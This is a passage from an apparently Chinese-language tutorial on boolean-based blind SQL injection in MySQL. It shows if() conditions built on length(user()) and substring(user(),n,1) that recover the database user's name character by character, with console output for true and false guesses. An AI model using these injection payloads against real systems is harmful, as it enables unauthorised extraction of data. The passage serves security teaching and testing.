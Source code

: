 
# 0x02 获取数据长度



```plain
mysql> select length(user());
+----------------+
| length(user()) |
+----------------+
|             14 |
+----------------+
1 row in set (0.00 sec)
```



数据库语句: select * from test where id = 1 and if(length(user())>=14,1=1,1=2);

# 0x03 读取数据库版本/当前连接用户/当前连接的数据库

读取不同的内容

例如:

substring(user(),1,1) = r

substring(user(),2,1) = o



读取 user() 第一个字符的内容-正确时的结果: select * from test where id = 1 and if(substring(user(),1,1)='r',1=1,1=2);



```plain
mysql> select * from test where id = 1 and if(substring(user(),1,1)='r',1=1,1=2);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | NULL | NULL    |
+----+------+------+---------+
1 row in set (0.00 sec)
```



读取 user() 第一个字符的内容-错误时的结果: select * from test where id = 1 and if(substring(user(),1,1)='s',1=1,1=2);



```plain
mysql> select * from test where id = 1 and if(substring(user(),1,1)='s',1=1,1=2);
Empty set (0.00 sec)
```

# 0x04 猜库名

